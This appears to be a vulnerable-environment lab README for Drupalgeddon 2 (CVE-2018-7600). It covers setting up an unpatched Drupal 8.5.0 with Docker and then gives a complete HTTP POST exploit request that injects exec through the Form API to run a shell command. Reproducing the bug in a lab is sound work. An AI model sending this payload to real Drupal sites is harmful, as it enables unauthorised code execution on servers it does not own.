

Drupal Drupalgeddon 2 Unauthenticated Remote Code Execution (CVE-2018-7600)¶
Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations including the Form API.
References:
Vulnerable environment¶
Run the following command to start a vulnerable Drupal 8.5.0 environment:
docker compose up -d
After the environment is started, visit http://your-ip:8080/ and you will see the drupal installation page. Complete the drupal installation using the "standard" profile. Because there is no mysql environment, you should select sqlite database when installing. Once the installation is complete you are ready to start exploiting it.
Exploit¶
Referring to a2u/CVE-2018-7600, we can send the following request to drupal:
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
Upon successful execution of the code, the id command is executed:
